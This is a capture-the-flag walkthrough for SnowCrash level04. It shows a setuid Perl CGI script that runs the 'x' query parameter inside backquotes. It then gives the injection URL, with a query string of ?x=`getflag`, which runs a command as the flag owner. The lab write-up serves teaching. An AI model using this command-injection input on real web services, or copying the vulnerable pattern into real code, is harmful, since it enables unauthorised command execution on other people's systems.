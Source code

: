 # Level04

## Research
---------------

```bash
level04@SnowCrash:~$ ls -l
-rwsr-s-r-x 1 flag04 level04 152 Mar 5 2016 level04.pl
```
Again this setuid, that means this program can executes commands as flag04.

```perl
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```
We can see 2 things:

1. We can see that localhost:4747 is used, as well as CGI. 
`CGI stands for Common Gateway Interface, it’s a protocol for executing scripts via web requests, and in the late 1990’s was the main way to write dynamic programs for the Web. It’s also the name of the Perl module we used [...] to code for the web.` <br/>
https://www.perl.com/article/perl-and-cgi/

2. The print uses \`\` (Backquotes), and any command put between backquotes will be executed.
https://www.tutorialspoint.com/unix/unix-quoting-mechanisms.htm

How to send a parameter to CGI?
`The first way to pass data is with the query string, (the portion of a URI beginning with ?), which you see in URLs like https://example.com/?foo=bar. This uses the “GET” request method, and becomes available to the program as $ENV->{QUERY_STRING}, which in this case is foo=bar (CGI programs receive their arguments as environment variables).`
https://www.perl.com/article/perl-and-cgi/



## Solution
---------------

Steps:
  - Open a web browser and connect to the VM IP address on port 4747
  ```BASH
  http://10.0.2.15:4747/
  ```
  - Use the query string to pass the getflag command. We need to send \`getflag\` so that it will be executed (try echo \`getflag\` in terminal for example). `getflag` as a parameter will only print getflag.
  ``` bash
  http://192.168.1.67:4747/?x=`getflag`
  ```

 
The program returns the token directly, so we can go to level05 with `su level05`.
